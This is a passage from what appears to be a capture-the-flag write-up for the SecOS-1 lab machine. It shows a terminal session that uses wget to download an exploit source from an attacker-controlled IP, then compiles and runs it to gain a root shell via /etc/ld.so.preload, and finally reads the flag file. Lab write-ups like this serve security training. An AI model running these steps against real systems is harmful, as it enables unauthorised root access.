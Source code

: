 compile it on victim :

```bash
spiderman@SecOS-1:~$ cd /tmp
spiderman@SecOS-1:/tmp$ wget http://192.168.127.128/exp.c
Connecting to 192.168.127.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: ‘exp.c’

100%[===============================================================================================>] 4,968       11.6KB/s   in 0.4s   

2023-09-09 15:02:58 (11.6 KB/s) - ‘exp.c’ saved [4968/4968]

spiderman@SecOS-1:/tmp~$ gcc exp.c
spiderman@SecOS-1:/tmp$ ls
a.out  exp.c  mongodb-27017.sock
spiderman@SecOS-1:/tmp$ ./a.out 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(spiderman)
```

yes, we got root here and can look at `/root/flag.txt` directory :

```bash
# cat /root/flag.txt
Hey,

Congrats, you did it ! 

The flag for this first (VM) is: MickeyMustNotDie.
Keep this flag because it will be needed for the next VM.

If you liked the Web application, the code is available on Github. 
(https://github.com/PaulSec/VNWA)

There should be more VMs to come in the next few weeks/months.

Twitter: @PaulWebSec
GitHub : PaulSec
```

## Privilege Escalation Method 2

Going in this directory wil show the source code of application :

